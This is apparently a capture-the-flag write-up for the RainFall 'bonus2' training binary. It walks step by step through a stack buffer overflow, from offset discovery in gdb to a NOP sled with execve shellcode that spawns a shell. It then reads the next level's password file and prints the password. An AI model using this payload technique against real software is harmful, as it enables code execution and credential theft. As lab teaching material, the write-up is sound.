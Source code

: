 # Exploit

We need 2 parameters in order to make the program print something
```
   0x08048538 <+15>:	cmp    DWORD PTR [ebp+0x8],0x3 ; compare program parameter count to 3
   0x0804853c <+19>:	je     0x8048548 <main+31>
   0x0804853e <+21>:	mov    eax,0x1
   0x08048543 <+26>:	jmp    0x8048630 <main+263>    ; return (1) exit program
```

Example
```
bonus2@RainFall:~$ ./bonus2 ok ok
Hello ok
```

We can observe with the C translation
```
    memset(buffer, 0x0, 76);
    strncpy(buffer, av[1], 40);
    strncpy(buffer+40, av[2], 32);
```
We can have a continuous buffer if we fill the first parameter with 40 characters, this will make display the second parameter
```
bonus2@RainFall:~$ ./bonus2 $(python -c 'print "A" * 40') $(python -c 'print "B" * 32')
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
Segmentation fault (core dumped)
```

Let's check with gdb why there is a crash here
```
(gdb) r $(python -c 'print "A" * 40') $(python -c 'print "B" * 32')
Starting program: /home/user/bonus2/bonus2 $(python -c 'print "A" * 40') $(python -c 'print "B" * 32')
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB

Program received signal SIGSEGV, Segmentation fault.
0x08004242 in ?? ()
```
EIP is somehow partly overwritten by filling the entire buffer.
We need to completely take control over EIP in order to get the exploit to work
Let's dig into the rest of the program
```
  int main()
  {
    char buffer[80];
    ...
    lang = getenv("LANG");
    if (memcmp(lang, "fi", 2) == 0)
        language = 1;
    else if (memcmp(lang, "nl", 2) == 0)
        language = 2;
    ...
    greetuser(buffer);
  }
  ...
  void greetuser(char *username)
  {
    char buffer[72];

    if (language == 1)
        strcpy(buffer, "Hyvää päivää ");
    else if (language == 2)
        strcpy(buffer, "Goedemiddag! ");
    else
        strcpy(buffer, "Hello ");

    strcat(buffer, username);
    puts(buffer);
  }
```
The buffer we want to exploit will be prefixed by a string depending on an environment variable `LANG` if it is set to `fi` or `nl`
Also, we understand why we previously partially overwritten EIP
The buffer of size 72 is first filled by 6 bytes `"Hello "` and then filled with our inputs with 72 bytes
We write 78 bytes in total but EIP is located at 72 + 4 (ebp) = 76
We only overwrite 2 bytes of EIP, this explain why
```
Program received signal SIGSEGV, Segmentation fault.
0x08004242 in ?? ()
```
By extending the number of byte written, we can now extend our overflow to fully take control of EIP
```
bonus2@RainFall:~$ env -i LANG=nl gdb bonus2
(gdb) r $(python -c 'print "A" * 40') $(python -c 'print "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH"')
Starting program: /home/user/bonus2/bonus2 $(python -c 'print "A" * 40') $(python -c 'print "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH"')
Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH

Program received signal SIGSEGV, Segmentation fault.
0x47474746 in ?? ()
```
`0x47474746` means `GGGF`, we only need `AAAABBBBCCCCDDDDEEEEFFF + jump address` as second parameter in order to overwrite EIP

We now need to know which address we need to jump to
```
bonus2@RainFall:~$ gdb bonus2
...
Reading symbols from /home/user/bonus2/bonus2...(no debugging symbols found)...done.
(gdb) b greetuser
Breakpoint 1 at 0x804848a
(gdb) r ok ok
Starting program: /home/user/bonus2/bonus2 ok ok

Breakpoint 1, 0x0804848a in greetuser ()
(gdb) x/x $ebp-0x48
0xbffff620:	0x0804823c
```
The address tends to change with each execution so it may vary

We'll use a shellcode to exploit the binary
>shellcode (21 bytes)
>https://shell-storm.org/shellcode/files/shellcode-517.html
>\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80

```
LANG=nl ./bonus2 $(python -c 'print "\x90" * 19 + "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"') $(python -c 'print "AAAABBBBCCCCDDDDEEEEFFF" + "\xbf\xff\xf5\x27"[::-1]') # the address may vary
```
The first 19 bytes is a NOP sled in order to have some margin when jumping

buffer address `0xbffff620` (at the time of exploit, change value as needed)
```
+13 (Goedemiddag! )
0xbffff620
0xbffff62d
+10 more or less
0xbffff637
```

```
bonus2@RainFall:~$ LANG=nl ./bonus2 $(python -c 'print "\x90" * 19 + "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"') $(python -c 'print "AAAABBBBCCCCDDDDEEEEFFF" + "\xbf\xff\xf6\x37"[::-1]')
Goedemiddag! �������������������1���Qh//shh/bin��
                                                 AAAABBBBCCCCDDDDEEEEFFF���
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```
